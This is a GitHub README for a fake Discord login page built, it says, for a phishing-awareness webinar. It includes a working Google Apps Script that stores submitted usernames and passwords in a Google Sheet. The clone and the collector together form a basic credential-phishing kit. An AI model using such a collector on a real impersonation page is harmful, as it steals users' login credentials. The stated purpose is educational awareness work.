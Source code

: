 # Fake-Discord-Login
An educational extract of the Discord login page, edited slightly to warn people of phishing.  
This repository is a commission for an educational webinar.  
Input sent through the "login form" is sent to a Google Sheet. This Google Sheet is private to avoid trolling.  
  
It also has taught me a lot about data storage and usage on a static webpage as well as how bad Google App Script error messages are.  
This approach to data storage allows me to read and write data to and from a "database" (Google Sheet) fairly dynamically on a static site.  
I don't think this is realistic for any sort of production mostly due to the sheer amount of requests this would take to operate a database.  

**Hosting this repository to GitHub Pages will make Microsoft, Google and possibly others flag your github.io domain as dangerous.**

# Google Script
```js
function doPost(e) {
  return handleRequest(e, "POST");
}

function doGet(e) {
  return handleRequest(e, "GET")
}

function doOptions(e) {
  return handleRequest(e, "OPTIONS");
}

function handleRequest(e, method) {
  if (method === "POST") {
    // Handle POST requests
    var sheet = SpreadsheetApp.openById('FILE_ID').getSheetByName('SHEET_NAME');
    var data = JSON.parse(e.postData.contents);
    // Append the data to the sheet
    sheet.appendRow([data.username, data.password]);
  }

  return ContentService.createTextOutput(JSON.stringify({
      "status": "success"
    }));
}
```
